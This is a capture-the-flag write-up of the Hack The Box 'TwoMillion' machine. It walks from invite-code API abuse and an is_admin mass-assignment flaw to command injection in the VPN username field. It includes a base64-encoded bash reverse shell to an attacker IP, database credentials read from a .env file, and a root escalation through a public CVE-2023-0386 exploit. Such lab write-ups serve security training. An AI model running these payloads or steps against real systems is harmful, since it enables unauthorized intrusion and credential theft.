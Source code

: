 *Add details and images, then add to resume*

Running `nmap`, there are two ports open, 22, and 80 running ssh and http respectively. 

When I visit the target ip, I find the url is called `2million.htb`. I add this url to the hosts list,

```
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

Visiting the `/invite` page, I find the javascript file `inviteapi.min.js` in the page source code. In the javascript code, there is a function `makeInviteCode` that returns base64 encrypted data. In the function there is a POST to a url `/api/v1/invite/how/to/generate`. Using this information we can use `curl` to probe the web application and get additional data, the invite code, cookies, etcetera.

```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq
```

From the above curl we get a hint via a ROT13 encrypted data, that to generate an invite code, make a POST request to `/api/v1/invite/generate`

```
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

We receive the code `U1oyN0ktUTVaOVMtREtOSVgtUDNDU00`, which if I run a base64 decryption, I get the invite code, `SZ27I-Q5Z9S-DKNIX-P3CSM`.

I insert the code into the `/invite` page and am redirected to the `register` page. I input a username, email, and password and can sign in through the `/login` page.

After logging in, if I access the `Access` tab and turn on Burp Suite to catch the next http request. I click on the `Connection Pack` button on the `Access` page and see that the GET request is to `/api/v1/user/vpn/generate` and a cookie is generated `PHPSESSID=nufb0km8892s1t9kraqhqiecj6`.

When I attempt to curl `/api` I get a 401 error:

```
curl -sv 2million.htb/api
```

This time I attempt a curl with the cookie I got earlier:

```
  curl -sv 2million.htb/api --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

As a response I get the endpoint `v1`, and I attempt to curl that next:

```
curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

I get the responses, `/api/v1/admin/auth`, `api/v1/admin/vpn/generate`, `/api/v1/admin/settings/update`, so I will try those next.

```
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

The above command returns false, as we are not currently an administrative user.

```
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6"
```

I get a 401 unauthorized error as I'm not an admin yet.

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

This command works, but tells me that I am missing an email parameter.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"

}
```

I get an error I am missing the parameter `is_admin`.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": '1'}' | jq

{
  "id": 13,
  "username": "test",
  "is_admin": 1

}
```

This was successful, now I authenticate:

```
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq

{
  "message": true

}
```

Now I curl the `/generate` endpoint:

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test"}'

client
dev tun
proto udp
remote edge-eu-release-1.hackthebox.eu 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
<SNIP>
```

Since a VPN configuration file was generated for the user, the php file that generated it could be vulnerable to inject malicious code to gain command execution on the remote system. Let's test this by adding `;id;` to the username field.

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This is successful. I start a netcat listener: and inject a shell with the following payload:

```
nc -lnvp 1234
```

 and inject a shell with the following payload:

```
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
```

But the payload must be encrypted via base64:

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;"}'
```

This is a success and I get shell access on the web-server.

On the server, I find admin credentials in the `.env` file 

```
www-data@2million:/var/www/html$ cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

I run `ssh` with the above credentials to login to admin.

After logging in as admin, there is an email in the path `/var/mail/admin`, in the email I find there is a vulnerability on `overlay fuse`, a google search reveals CVE-2023-0386 and vulnerability is in the linux kernel.

Running the following commands I get details on the Operating System:

```
admin@ubuntu:~$ uname -a

Linux ubuntu 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022
x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:  Ubuntu 22.04.2 LTS
Release:  22.04

Codename: jammy
```

There is an exploit available on github:

```
  $ git clone https://github.com/xkaneiki/CVE-2023-0386
```

Unzip:

```
  zip -r cve.zip CVE-2023-0386
```

Upload the contents using scp:

```
scp cve.zip admin@2million.htb:/tmp
```

Run the following commands:

```
$ cd /tmp
$ unzip cve.zip
$ cd /tmp/CVE-2023-0386/
$ make all
$ ./fuse ./ovlcap/lower ./gc &
$ ./exp
$ whoami
root
```

Now we have root access and can run `cat /root/root.txt` to get the flag.